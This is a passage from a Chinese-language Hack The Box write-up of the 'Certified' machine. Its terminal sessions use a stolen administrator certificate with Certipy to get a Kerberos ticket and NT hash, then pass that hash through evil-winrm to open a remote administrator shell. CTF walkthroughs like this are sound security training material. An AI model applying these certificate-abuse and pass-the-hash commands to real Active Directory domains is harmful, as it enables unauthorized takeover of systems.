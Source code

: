 使用 `Certipy` 工具，通过 `administrator.pfx` 证书文件以 `administrator@certified.htb` 用户身份进行 Kerberos 认证，并成功获取 TGT 和 NT hash

```
┌──(root㉿kali)-[/home/kali/Certified]
└─# certipy-ad auth -pfx administrator.pfx -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
                                                                                                                         
```

最后通过evil-winrm登录获取到root.txt

```
┌──(root㉿kali)-[/home/kali/Certified]
└─# evil-winrm -i certified.htb -u administrator -H "0d5b49608bbce1751f708748f67e2d34" 
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine                                                                                                                                   
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ../desktop
*Evil-WinRM* PS C:\Users\Administrator\desktop> cat root.txt
```

![](./images/image-56.png)

## Summary
